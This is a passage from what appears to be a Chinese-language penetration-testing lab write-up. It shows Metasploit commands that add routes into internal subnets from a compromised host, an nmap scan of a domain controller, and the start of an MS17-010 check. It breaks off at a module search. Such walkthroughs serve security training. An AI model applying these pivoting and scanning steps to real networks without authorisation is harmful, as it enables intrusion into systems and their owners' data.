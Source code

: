 ![](../../attaches/Pasted%20image%2020220914203141.png)
执行`run get_local_subnets`获得当前子网，执行`run autoroute -s 192.168.52.0/24`添加路由（background挂起会话后运行`route add 10.1.81.0/24 1`），执行`run autoroute -p`查看当前存活路由表。
![](../../attaches/Pasted%20image%2020220914203117.png)
在win7上发现nmap，扫描一下域控开启的端口。
![](../../attaches/Pasted%20image%2020220914204401.png)
端口445开启疑似存在ms17-010漏洞，回到msf测试一下，执行如下命令。
```
background
search ms17-010
```